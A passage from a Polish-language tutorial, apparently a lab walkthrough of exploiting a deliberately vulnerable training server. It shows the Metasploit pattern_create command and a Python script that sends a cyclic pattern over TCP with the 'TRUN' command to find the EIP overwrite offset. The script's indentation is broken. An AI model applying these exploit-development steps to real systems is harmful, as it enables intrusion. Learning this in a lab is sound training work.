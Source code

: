Będziemy teraz szukać *offsetu* wartość rejestru EIP jest nadpisywana. W pierwszej kolejności korzystamy z narzędzia metasploit które wygenerujemy nam wzór na podstawie zdobytej wcześniej na etapie *fuzzingu* informacji. 

    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000

![](p/4.png)

Powyższy output kopiujemy i napiszemy teraz kolejny skrypt w języku Python (*2.py*), który tym razem znajdzie nam konkretną wartość offsetu.

```python
#!/usr/bin/python

import sys, socket

offset = "<output from above command>"

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.201.128', 9999))
        s.send(('TRUN /.:/' + offset))
        s.close()
except:
    print "Error occured while connecting to server"
    sys.exit()
```

Po wykonaniu tej komendy przechodzimy do *Immunity Debuggera* i przepisujemy wartość rejestru *EIP*, tj. **386F4337**


![](p/5.png)
